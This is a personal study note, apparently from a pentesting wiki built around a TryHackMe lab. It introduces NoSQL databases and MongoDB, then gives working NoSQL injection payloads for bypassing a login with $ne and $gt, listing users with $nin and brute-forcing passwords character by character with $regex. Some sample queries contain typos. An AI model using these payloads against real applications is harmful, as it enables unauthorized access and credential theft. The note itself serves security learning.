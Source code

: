 # NoSQLi

## Introduction to NoSQL databases

NoSQL databases are non-relational meaning they do not store information in regular tabular manner. Key-value(An index and value stored at the indexed location), Graph(Data stored in graph structure), Document(have key-value elements with metadata), xml Databases are a subclass), Wide Column Store(tabular but irregular in width, from row to row). See [Wiki](https://en.wikipedia.org/wiki/NoSQL) further information. For [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), or more basics of SQL see [[Introduction-to-SQL]]

#### MongoDB

[MongoDB](https://www.mongodb.com/) is JSON-like, document store type NoSQL database. Its data is a JSON-like structure called a **Document**. Documents are stored in an associative array with an arbitrary number of fields. These can be store hierarchically called **Collections**. Collections are the equivalent of tables in relational databases; multiple collections are grouped in **databases**. See [[MongoDB]].

I uses NoSQL queries, not SQL-like:
```nosql
['KEY' => 'VALUE']
['KEY' => 'VALUE', 'KEY' => 'VALUE']
['KEY' => ['$lt'=>'1337']]` # Logic can eb used to filter
```
Although keys in this instance can be strings, properties to which the value is some string relation to it storage key: `["username" : "admin"]

#### MongoDB injection

Due NoSQL queries requiring nested associative arrays a NoSQL injection must be capable of injecting arrays into the application.

This will authentication bypass to the first user in the database:  
`user[$ne]=xxxx&pass[$ne]=yyyy` or `user[$gt]=xxxx&pass[$gt]=yyyy`  
query performed:  
`['username'=>['$ne'=>['yyyy'] ], 'password'=>['$ne'=>'yyyy']]`
To get the nth users, create filter with `$nin` by specifying criteria where the desired documents have some field, not in a list of values:  
`user[$nin][]=xxxx&pass[$ne]=yyyy`  
The query performed:  
`['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'00001111']]`
Repeat by adding `&user[$nin][]=`

- For passwords `$regex` operator, with a regex the number in curly brackets the length of a wildcard password:  
`user=admin&pass[$regex]=^.{7}$` 

- Then to fuzz with another `[$regex]=^a......$`; if you login the first letter is `a` if error is not. Beware the amount of `.`s as each is one of the `{NUMBER}` of characters so if there are 7 the you need 7 dots and the first being the first character to fuzz for. 


## References

[TryHackMe](https://tryhackme.com/room/nosqlinjectiontutorial)
[Wiki](https://en.wikipedia.org/wiki/NoSQL)